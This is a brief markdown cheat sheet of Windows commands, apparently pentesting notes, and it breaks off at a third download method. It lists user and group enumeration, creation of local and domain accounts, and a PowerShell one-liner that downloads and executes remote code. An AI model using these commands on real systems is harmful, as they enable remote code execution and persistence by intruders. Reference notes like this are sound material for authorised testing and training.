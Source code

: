 # Commands
## User related
### User and group info
```powershell
# User info
whoami /all

# User info
net user

# Show groups
net group

# Show local groups
net localgroup <groupname>

# Add user to group
net group <groupname> /add <username>
```

### Account creation
```powershell
# Create account
net user <username> <password> /add

# Create account (AD)
# This will force the command to execute on the domain controller instead of the local computer
net user <username> <password> /add /domain
```

## Basic
### System
```bash
# Shows info about system
# Look whether HotFixes are applied or not
systeminfo
```
### Show drives
```powershell
powershell -c get-psdrive -psprovider filesystem
```
### Show hidden data streams
```powershell
dir /R
```
### Download and execute files
```powershell
iex(new-object net.webclient).downloadstring('remote_file')
```
### Download files
```powershell
# Method 1
(new-object net.webclient).downloadfile(<remote_file>,<output_file>)

# Method 2
Invoke-WebRequest -Uri <source> -OutFile <output_file>

# Method 3
```